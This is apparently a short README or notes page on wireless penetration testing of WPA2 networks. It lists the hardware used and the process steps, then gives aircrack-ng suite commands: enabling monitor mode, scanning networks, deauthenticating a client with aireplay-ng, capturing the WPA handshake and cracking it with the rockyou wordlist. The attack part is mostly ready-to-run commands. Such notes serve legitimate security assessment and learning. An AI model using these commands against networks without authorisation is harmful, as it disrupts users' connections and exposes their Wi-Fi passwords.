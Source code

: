 ### Wireless PenTest

Assessment of wireless network
- WPA2 PSK
- WPA2 Enterprise

Activities performed
- Evaluating strength of PSK
- Reviewing nearby networks
- Assessing guest networks
- Checking network access

### Tools 

Wireless Card
- Alfa AWUS036NH

Router
- TP-LINK AC2300 Wireless

Laptop

### The Hacking Process (WPA2 PSK)

Place
- Place wireless card into monitor mode

Discover
- Discover information about network
- - Channel
- - BSSID

Select
- Select network and capture data

Perform
- Perfrom deauth attack

Capture
- Capture WPA handshake

Attempt
- Attempt to crack the handshake

### aircrack-ng

check if wireless card info
```
iwconfig
```

start monitor mode
```
airmon-ng check kill
airmon-ng start wlan0
```

search available newtwork
```
airodump-ng wlan0mon
# note channel and bssid
```

listen for 3-way handshake
```
airodump-ng -c channel --bssid bssid -w capture wlan0mon
```

deauth attack
```
aireplay-ng -0 1 -a bssid -c station wlan0mon
```

cracking 3-way handshake
```
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b bssid capture.cap
```
